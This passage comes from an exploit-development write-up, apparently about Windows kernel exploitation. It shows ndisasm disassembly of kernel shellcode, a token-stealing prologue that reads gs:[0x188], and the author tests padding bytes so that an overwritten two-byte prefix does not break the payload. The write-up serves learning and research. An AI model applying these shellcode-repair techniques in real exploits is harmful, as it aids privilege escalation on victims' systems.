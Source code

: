  Ok, so what happens when we take that first line, overwrite the first two bytes with `\x26\x00` ? 
 ```
 root@kali:~# echo -ne '\x26\x00\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00' | ndisasm -b64 -
00000000  26004153          add [es:rcx+0x53],al
00000004  52                push rdx
00000005  4831C0            xor rax,rax
00000008  65488B8088010000  mov rax,[gs:rax+0x188]
```

This is precisely what we saw in the WinDBG disassembler! Perfect. Let's experiment. My first thought: We are overwriting two bytes, let's put two NOPs as padding! We would then end up with something like this:
```
root@kali:~# echo -ne '\x26\x00\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00' | ndisasm -b64 -
00000000  26005051          add [es:rax+0x51],dl
00000004  4153              push r11
00000006  52                push rdx
00000007  4831C0            xor rax,rax
0000000A  65488B8088010000  mov rax,[gs:rax+0x188]
```

Oof, that's still not good. This would also definitely be an access violation as you'll remember `rax` was a small value when we run our exploit at this stage. This memory wouldn't be mapped appropriately. We need a way to alter how the subsequent commands after `\x26\x00` are being interpreted. What if we add a third padding byte that's purpose is to separate the `\x26\x00` opcodes as non-harmfully as possible from the rest of our shellcode? I started experimenting. Let's just try adding a `\x00` byte and see what happens!
```
root@kali:~# echo -ne '\x26\x00\x00\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00' | ndisasm -b64 -
00000000  260000            add [es:rax],al
00000003  50                push rax
00000004  51                push rcx
00000005  4153              push r11
00000007  52                push rdx
00000008  4831C0            xor rax,rax
0000000B  65488B8088010000  mov rax,[gs:rax+0x188]
```

This is still not optimal, as you can see, we're still directly writing to memory that is at a very low address space and will cause us problems most likely. However, we did successfully truncate this series of operations to only 3 bytes! I started spamming potential 3rd byte padding candidates with a script and eventually landed on candidate `\xff`. Let's test this out and see if this works for our purposes:
```
root@kali:~# echo -ne '\x26\x00\xff\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00' | ndisasm -b64 -
00000000  2600FF            es add bh,bh
00000003  50                push rax
00000004  51                push rcx
00000005  4153              push r11
00000007  52                push rdx
00000008  4831C0            xor rax,rax
0000000B  65488B8088010000  mov rax,[gs:rax+0x188]
```
